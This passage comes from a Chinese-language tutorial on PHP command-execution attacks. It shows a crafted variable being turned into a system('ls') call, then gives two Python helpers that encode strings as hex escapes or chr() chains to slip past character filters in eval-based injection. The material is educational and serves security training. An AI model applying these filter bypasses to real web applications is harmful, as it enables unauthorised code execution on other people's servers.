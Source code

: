 观察这张图，我利用了两个pos成功提取出了我们恶意构造的123这一变量

![](https://cdn.nlark.com/yuque/0/2025/png/33715413/1755831401356-f37ddceb-1b59-44ee-a2f9-769d4b64fa4e.png)

此时我将print换成了system，再将恶意构造的123换成了系统命令ls，发包后即可发现我们成功执行了ls系统命令

#### 绕过简介

eval类和system类命令执行的绕过大同小异，此处额外提供两个仅在eval类生效的脚本，其本质为php的字符解析机制和php的函数利用，以下可用于绕过特殊字符段的过滤，适用于show_source等多种2.2.2中的显示和包含文件函数的参数构造

**1.16进制绕过"\x77\x61\x66\x2e\x70\x68\x70"，外面必须为双引号**

16进制的构造脚本

```
original_string=''
while(original_string!='end'):
    original_string = input()
    hex_representation = "\\x".join("{:02x}".format(ord(char)) for char in original_string)
    final_result = "\\x" + hex_representation
    print(final_result)
```

**2.chr函数绕过chr(119).chr(97).chr(102).chr(46).chr(112).chr(104).chr(112)**

chr的构造脚本

```
def convert_to_ascii_special(text):
    ascii_special = ''
    for char in text:
        ascii_code = ord(char)
        ascii_special += 'chr({}).'.format(ascii_code)
    ascii_special = ascii_special[:-1]  
    return ascii_special

user_input=''
while(user_input!='end'):
    user_input = input("请输入要转换的字符：")
    result = convert_to_ascii_special(user_input)
    print(result)
```

参考链接：

[https://blog.csdn.net/qq_56815564/article/details/130279662](https://blog.csdn.net/qq_56815564/article/details/130279662)

[https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

[https://blog.csdn.net/kali_Ma/article/details/122544274](https://blog.csdn.net/kali_Ma/article/details/122544274)

来自: [奇安信攻防社区-保姆级命令执行总结](https://forum.butian.net/share/3667)


### 八进制绕过（Octal RCE）完整总结 — Versaga

